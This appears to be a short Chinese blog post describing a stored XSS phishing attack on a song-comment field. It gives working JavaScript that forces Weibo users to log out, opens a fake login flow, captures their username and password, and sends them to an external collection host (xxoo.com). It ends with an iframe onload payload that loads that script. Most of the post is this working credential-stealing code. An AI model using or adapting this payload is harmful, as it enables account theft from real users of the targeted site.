



记一次 div 层钓鱼
歌曲的歌评处过滤不严，只对 script 标签、http 进行了过滤，导致可通过标签的事件属性和编码进行绕过。 写了个 javascript 脚本进行 div 层钓鱼。 基本流程如下：

js 代码：
function fish () {
if ($("a")[20].innerHTML=="\u9000\u51fa") { //判断是否登陆，若登陆则退出
$.getScript("http://weibo.com/logout.php", function (data) {
location.reload();
});
} else {
$("a")[7].click(); //触发登陆框
setTimeout("getpass()", 500); //劫持登陆按钮
};
};
function getpass () { //劫持登陆按钮
$(".W_btn_g").on("click", function () {
var username = $(".W_input")[0].value; //用户名
var passwd = $(".W_input")[1].value; //密码
$.getScript("http://xxoo.com/weibo_fish.php?username="+username+"&password="+passwd);
window.name = "ok"; //标记window.name ，防止重复
});
};
if (window.name!="ok") { //检测window.name
fish();
};
通过 <iframe onload="$.getScript('http://xxoo.com/weibo_fish.js')"></iframe> XSS。
效果如下:

